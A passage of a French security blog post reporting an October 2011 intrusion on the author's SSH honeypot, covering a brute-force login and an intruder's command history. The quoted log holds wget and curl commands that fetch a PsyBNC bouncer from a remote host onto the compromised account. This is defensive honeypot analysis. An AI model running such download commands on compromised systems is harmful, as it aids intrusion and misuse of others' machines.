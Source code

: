 ```yaml
---
title: "Mass Apache pwnage from Romania"
tags: [honeypot, reverse engineering, shellcoding]
---
```


Ça fait un bon moment que je n'avais [pas donné](http://devloop.users.sourceforge.net/index.php?article23/dernieres-visites-sur-le-honeypot-ssh) [de nouvelles]({% link _posts/2011-01-08-Intrusion-du-24-novembre-2006.md %}) de mon [honeypot SSH](http://devloop.users.sourceforge.net/index.php?article11/kojoney).  

Il faut dire que les visites sont assez rares et généralement peu intéressantes, se terminant par rapatriement d'un [EnergyMech](http://www.energymech.net/), d'un [PsyBNC](http://www.psybnc.co.uk/index.php/Main_Page) voire du [scanner UnixCod](http://devloop.users.sourceforge.net/index.php?article23/dernieres-visites-sur-le-honeypot-ssh) qui continue à faire parler de lui.  

Aujourd'hui j'ai l'occasion de vous parler de quelque chose de plus croustillant, qui tournera principalement sur l'analyse d'un binaire Linux.  

## L'intrusion

L'attaque a eu lieu le 25 octobre 2011. Une attaque bruteforce est lançée sur le faux serveur SSH à 14h11 et qui se terminera à 14h36. Il n'aura fallu q'une minute pour trouver les différents comptes avec mots de passes faibles.  

Le scan est en provenance de l'ip `121.2.28.199` qui fait partie du réseau du FAI *So-net*, un fournisseur d'accès japonais et filiale de *Sony*.  

Différents services tournent sur cette machine comme smtp, ftp (Microsoft FTP) et ssh (OpenSSH). Je n'ai pas cherché à en savoir plus mais il est fort possible que cette machine ait été infiltrée pour servir de relais aux pirates.  

À 14h25, un premier visiteur humain se connecte au serveur en se loguant directement avec le compte `test`. L'IP (`86.154.169.82`) est britannique et correspond au FAI *BT*. Le seul port TCP ouvert semble être le 5060 (SIP) et doit correspondre à une config par défaut des box fournies par le FAI.  

L'historique des commandes est le suivant :  

```console
14:25 w
14:26 passwd
14:26 passwd
14:28 cd
14:28 ls
14:29 get help-bnc.6te.net/psybnc-linux.tgz
14:29 wget help-bnc.6te.net/psybnc-linux.tgz
14:30 cdrl -O
14:31 curl -O 77.194.232.72help-bnc.6te.net/psybnc-linux.tgz
14:31 FTP
14:31 ftp
```

Rien de bien intéressant. L'intrus a voulu changer le mot de passe du compte `test` pour fermer l'accès derrière lui et, voyant que l'accès était refusé, a fait une nouvelle tentative. Il a ensuite essayé de télécharger un `PsyBNC` avant de laisser tomber.  
